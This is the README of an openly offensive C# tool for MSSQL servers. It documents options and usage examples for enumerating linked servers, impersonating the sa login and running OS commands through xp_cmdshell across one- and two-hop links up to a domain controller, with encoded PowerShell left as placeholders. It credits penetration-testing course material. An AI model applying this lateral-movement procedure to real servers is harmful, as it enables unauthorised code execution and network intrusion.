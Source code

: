# SQLinkedCodeExec

![image](https://user-images.githubusercontent.com/57995347/164911965-bc2c290e-f2ad-446b-a030-a3fb2910f52e.png)


This is an Offensive C# Tool that performs the following:
- basic enumeration on MSSQL server(s)
- execute commands on the backend OS hosting the MSSQL server(s)

The tool accepts user supplied credentials or leverages the access token of the logged-on user

```
SQLinkedCodeExec.exe /t <target> /user <username> /pass <password>  <command-to-run>
```

Options:
```
/codexec - executes specified code on MSSQL servers
/impersonate - impersonates sa user on MSSQL server
/imp_db - specifies the database for impersonation e.g. msdb. This must be used with imp_user
/imp_user - impersonates specified login on a MSSQL server e.g. sa
/localexec - enables code execution via xp_cmdshell on local MSSQL server
/link1exec - enables code execution via xp_cmdshell on single hop linked MSSQL - Link 1
/link2exec - enables code execution via xp_cmdshell on double hop linked MSSQL - Link 2
/lnk - determines if the target MSSQL server has any linked servers
/lnkedt - specifies the linked server connected to our target MSSQL - Link 1
/lnkedtt - specifies the double linked server connect to our target MSSQL - Link 2
/lnkedtcheck1 - enumerates linked server  - Link 1
/lnkedtcheck2 - enumerates double linked server  - Link 1
/pass - specifies password to use
/t - specifies the target MSSQL server
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
SQLinkedCodeExec.exe /t <target> /user <username>  /pass <password>  <command-to-run>

Usage: Examples:"
SQLinkedCodeExec.exe /?  - show's this help menu \n"

//Authenticate to target MSSQL with username and password"
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password>\n"

//Authenticate to target MSSQL with current system token"
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password> /syscreds true\n"

//Execute Code on target MSSQL server "
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password> /localexec true /codexec < Whatever - command - goes - here > \n"

//Check if target MSSQL server has any server links"
SQLinkedCodeExec.exe /t <target name or IP>  /syscreds true /lnk true\n"

//Execute Code on linked MSSQL server instance (appsrv01) - Link 1"
SQLinkedCodeExec.exe /t <target name or IP>  /syscreds true  /link1exec tTrue /lnkedt appsrv01 /codexec <powershell - enc...>\n"

//Impersonate sa account and execute Code on linked MSSQL server instance (appsrv01) - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true /lnk true /impersonate true /imp_user sa /imp_db msdb /codexec <powershell - enc>\n"

//Enumerate linked MSSQL server (appsrv01) for additional links to other instances - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true /lnkedt appsrv01 /lnkedtcheck1 true\n"

//Checked double linked server (dc01) for the user we are operating as - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true  /lnkedt appsrv01 /lnkedtt dc01 /lnkedtcheck2 true\n"

//Execute code on double linked server (dc01)"
SQLinkedCodeExec.exe /t dc01 /user someguy /pass somepass /syscreds true /lnk true  /link2exec true /lnkedt appsrv01 /lnkedtt dc01 /codexec <powershell - enc....>\n"
```


# Credits
- Heavily inspired by "[chvancooten](https://github.com/chvancooten/OSEP-Code-Snippets)" 
- Invaluable knowledge from the "[OSEP Course](https://www.offensive-security.com/pen300-osep/)"
